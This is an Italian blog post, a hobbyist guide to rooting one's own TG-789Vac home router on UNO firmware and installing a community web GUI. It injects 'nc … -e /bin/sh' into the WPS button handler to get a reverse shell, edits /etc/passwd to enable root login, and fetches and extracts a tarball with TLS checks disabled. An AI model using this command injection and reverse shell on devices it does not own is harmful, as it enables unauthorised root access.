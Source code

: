 ```yaml
---
layout: post
title:  "ROOT e Custom GUI per TG-789Vac"
date:   2019-02-25 00:00:00 
---
```

Guida al Root del dispositivo, con firmware UNO aggiornato all'ultima versione (17.2).  

Il router in questione è quello bianco della foto, in Italia viene distribuito da Tim o Fastweb per abbonamenti vdsl.
<a href="/media/agtot/router.png"><img src="/media/agtot/router.png" alt="Agpwi Photo" style="float: right;" />  


Se non hai ancora installato il firmware UNO eccoti la guida: [Come Flashare UNO sul TG-789Vac]({% post_url 2018-08-05-AGTOT-FW %})


><span style="color:red">**DISCLAIMER**</span>: Non mi ritengo responsabile per eventuali router brickati, eventuali gatti morti o guerre termonucleari dovute ad un malfunzionamento del suddetto prodotto.  

><span style="color:red">**NOTA**</span>: La procedura viene eseguita su Linux  



**Procedimento:**

1. Impostare netcat in ascolto sul proprio pccon: ```nc -lvvp 1337```

2. Loggarsi sul router in SSH usando come credenziali:
```
        -Username: engineer
        -Password: quella usata per loggarsi come admin nella webui
```
        
2. Dare questo comando: ```set uci.button.button.@wps.handler 'nc 192.168.1.X 1337 -e /bin/sh'```

3. Premere il pulsante laterale per far partire netcat 

4. Dare questi comandi sulla shell netcat aperta:
```
    set uci.button.button.@wps.handler 'wps_button_pressed.sh'
    sed -i 's#root:/bin/false#root:/bin:ash#' /etc/passwd
    uci set dropbear.lan.RootPasswordAuth='on'
    uci set dropbear.lan.RootLogin='1'
    uci commit
    /etc/init.d.dropbear restart
    passwd
```
Con il comando ```passwd``` chiedera' di inserire la password dell'utente root. 

5. Fine. Ora e' possibile loggarsi in SSH come root/password 


**Procedura per installare la gui di ansuel:**

><span style="color:red">**NOTA**</span>: Per evitare vari problemi alla ui, e' consigliabile aver gia' configurato il modem per la navigazione in internet.

1. Loggarsi sul router in SSH come root ( vedi sopra)

2. Dare i seguenti comandi:
```
    curl -k https://raw.githubusercontent.com/Ansuel/gui-dev-build-auto/master/GUI.tar.bz2 --output /tmp/GUI.tar.bz2
    bzcat /tmp/GUI.tar.bz2 | tar -C / -xvf -
    /etc/init.d/rootdevice force
```
A procedura finita, e' consigliabile riavviare il modem con ```reboot```

3. Godersi la nuova ui! (creata da ANSUEL, pagina [GitHub](https://github.com/Ansuel/tch-nginx-gui) )


**Fine**


<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = https://pietrotti97.com/pagine/a-router/mod-fw/2019/02/25/AGTOT-root.html;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = agtotroot; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://pietrotti97.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>




